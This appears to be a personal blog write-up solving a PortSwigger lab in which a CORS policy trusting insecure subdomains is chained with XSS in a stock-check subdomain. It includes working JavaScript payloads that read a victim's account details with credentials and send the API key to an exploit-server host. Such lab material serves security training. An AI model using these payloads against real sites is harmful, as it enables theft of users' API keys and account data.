 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-16T15:22:00Z
modDatetime: 2024-10-16T09:12:47.400Z
title: CORS vulnerability with trusted insecure protocols
slug: cors-portswigger-lab-2
featured: false
draft: false
tags:
  - BSCP
  - CORS
description:
  This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials wiener:peter    
---
```


## Introduction

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

## Solution

Looks like the same previous lab, but there is a new functionality to check the stocks where it takes new subdomain called `stock` and there is a XSS vulnerability through `productId`

![](../../assets/images/bscp/cors/cors-14.png)


As same the previous lab, we found a endpoint called `/accountDetails` where it shows the API keys being available of the loggedin user

![](../../assets/images/bscp/cors/cors-15.png)

Now coming to the CORS part, In the `/accountDetails` endpoint we sent the `Origin: http://example.com` and nothing happens in the response 

![](../../assets/images/bscp/cors/cors-16.png)

But when we send the subdomain as a origin, it accepts and discloses in the response as an `ACAO` 

![](../../assets/images/bscp/cors/cors-17.png)

When we look back at our first lab, we can take that POC and make it as a oneliner 

```js
<script>var req=new XMLHttpRequest();req.onload=reqListener;req.open('get','https://0a90007603b4470f808430ae0091001b.web-security-academy.net/accountDetails',true);req.withCredentials=true;req.send();function reqListener(){location='/log?key='+this.responseText;}</script>
```

And submitted it as payload for the XSS in the `stock` subdomain and it works as you see

![](../../assets/images/bscp/cors/cors-18.png)


Ok awesome, In the Exploit server with the following POC 

```html
<script>
    document.location="http://stock.0a18006104de0fa18139b1cb001d000c.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a18006104de0fa18139b1cb001d000c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ab8008604440fdf8185b06c01ad008c.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Once after delivering the exploit to the victim and checking the accesslog we found the `administrator` API key

![](../../assets/images/bscp/cors/cors-20.png)

Take the API key and submit it as a solution and the lab will be solved 

![](../../assets/images/bscp/cors/cors-21.png)